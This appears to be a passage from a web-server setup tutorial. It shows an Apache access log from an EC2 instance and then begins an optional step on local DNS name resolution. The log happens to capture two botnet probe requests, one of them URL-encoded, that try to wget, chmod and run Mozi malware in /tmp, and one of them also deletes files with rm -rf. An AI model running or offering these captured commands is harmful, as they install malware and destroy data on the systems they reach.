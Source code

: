 `ON WEBSERVER_2`

**[root@ip-172-31-19-10 ec2-user]# tail -f /var/log/httpd/access_log**
```
185.59.245.249 - - [20/May/2021:21:38:55 +0000] "GET / HTTP/1.1" 302 2455 "-" "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36"

182.127.70.10 - - [21/May/2021:08:12:30 +0000] "27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0" 400 226 "-" "-"
102.89.2.198 - - [21/May/2021:08:55:34 +0000] "GET /index.php HTTP/1.1" 302 2455 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36"
102.89.2.198 - - [21/May/2021:08:55:35 +0000] "GET /login.php HTTP/1.1" 200 715 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36"
102.89.2.198 - - [21/May/2021:08:55:35 +0000] "GET /style.css HTTP/1.1" 200 1704 "http://54.212.40.229/login.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36"
102.89.2.198 - - [21/May/2021:08:55:36 +0000] "GET /favicon.ico HTTP/1.1" 404 196 "http://54.212.40.229/login.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36"
102.89.2.101 - - [21/May/2021:08:56:26 +0000] "-" 408 - "-" "-"

172.31.28.70 - - [21/May/2021:09:23:13 +0000] "POST /login.php HTTP/1.1" 302 715 "http://34.222.133.88/login.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36"
172.31.28.70 - - [21/May/2021:09:23:13 +0000] "GET /login.php HTTP/1.1" 200 715 "http://34.222.133.88/login.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36"
172.31.28.70 - - [21/May/2021:09:23:37 +0000] "POST /login.php HTTP/1.1" 302 715 "http://34.222.133.88/login.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36"
172.31.28.70 - - [21/May/2021:09:23:37 +0000] "GET /admin_tooling.php HTTP/1.1" 200 2397 "http://34.222.133.88/login.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36"
112.171.130.213 - - [21/May/2021:09:28:45 +0000] "HEAD / HTTP/1.1" 302 - "-" "-"
112.171.130.213 - - [21/May/2021:09:28:46 +0000] "GET / HTTP/1.1" 302 2455 "-" "-"

192.241.206.224 - - [21/May/2021:09:42:17 +0000] "GET /actuator/health HTTP/1.1" 404 196 "-" "Mozilla/5.0 zgrab/0.x"
61.242.40.232 - - [21/May/2021:09:42:37 +0000] "GET /shell?cd+/tmp;rm+-rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1" 404 196 "-" "Hello, world"
```

## Step 2: Optional Step - Configure Local DNS Names Resolution

In the case where one is managing many servers, switching between IP addresses can be tedious. Domain name resolution (DNS) can be used to Map IP address to domain name as domain name is easier to remember than IP Addresses. In this step, a local domain name resolution will be configured `to illustrate how it works`, this method is not very scalable but easy to configure.
